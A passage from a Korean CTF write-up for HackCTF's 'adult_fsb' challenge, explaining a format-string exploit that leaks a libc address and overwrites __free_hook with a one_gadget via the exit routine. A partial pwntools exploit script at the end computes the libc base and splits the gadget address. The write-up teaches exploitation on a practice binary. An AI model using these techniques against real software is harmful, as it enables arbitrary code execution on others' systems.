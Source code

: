 - cur→idx가 0이하의 값이라면 while문을 건너띄고 위 로직이 실행된다. cur→next에 담긴 값을 listp포인터 변수에 넣고 해당 값이 NULL인지 아닌지 검사한다
- 해당 값이 NULL이 아니면 free함수가 실행된다.
- 우리는 cur→next의 값을 디버깅하여 확인한뒤, 디폴터 값이 0이면 해당 값을 아무값이나 변경해야한다
- 그다음 free_hook을 one_gadget으로 덮는다<br><br>
- 디버깅

    ![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20adultfsb/Untitled%204.png)

    원래 디폴트로는 [r13+0x00] 에 0이 들어가 있다. 따라서 해당 로직으로 분기를 하지 않지만 위의 test rax,rax를 진행할때 " set $rax=0 " gdb 명령어로 rax값을 변경하였다.

    ![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20adultfsb/Untitled%205.png)

    따라서 free함수가 호출되는 것을 확인할 수 있다. 우리는 이제 free_hook을 덮기만 하면 된다.

<br><br>

2. **시나리오**
    1. **libc_주소 leak하기**
        - 보통 메인함수가 다 수행되고 ret를 하는 위치가 libc_start_main+240이다. 따라서 ret를 leak하여 libc_base를 구하자

            ![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20adultfsb/Untitled%206.png)

            ⇒ %49$p로 해당 값을 leak 가능

    2. **exit 루틴에서 필요한 두가지 조건 맞춰주기**
        - inital+8 값을 0으로 만들기 ⇒ libc_base에서 offset으로 거리를 구한뒤 fsb로 0삽입
        - inital+0 에 아무값 넣기 ⇒ libc_base에서 offset으로 거리를 구한뒤 fsb로 삽입
        - one_gadget(6바이트)를 $hn 를 이용하여 2바이트 씩 3개로 쪼개서 fsb로 삽입<br>

        ![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20adultfsb/Untitled%207.png)

        - 위 로직이 정상적으로 진행된다면 위 사진과 같이 cur→idx (initial+8) 에 0이 들어가고, cur→next(initial) 에 NULL이 아닌 값이 들어가 있다.
        - 또한 free_hook에도 one_gadget이 잘 들어가있다.



<br><br><br>

### 3. 풀이

---

최종익스코드는 다음과 같다
```python
    from pwn import *
    context(arch="amd64",os="linux",log_level="DEBUG")
    #p=remote("ctf.j0n9hyun.xyz",3040)
    p=process("./adult_fsb")
    gdb.attach(p,'code\nb *0x755+$code\n')
    
    e=ELF("./adult_fsb")
    libc=ELF("./libc.so.6")
    
    payload = "%49$p"
    pause()
    p.send(payload)
    libc_start=int(p.recv(14),16)
    #log.info(hex(libc.symbols['__libc_start_main']))
    libc_base=libc_start-0x20830
    log.info(hex(libc_start))
    log.info(hex(libc_base))
    
    one_gadget=libc_base+0x4526a
    one_gadget_low=one_gadget&0xffff
    one_gadget_middle = (one_gadget >> 16) & 0xffff
    one_gadget_high = (one_gadget >> 32) &0xffff
    
```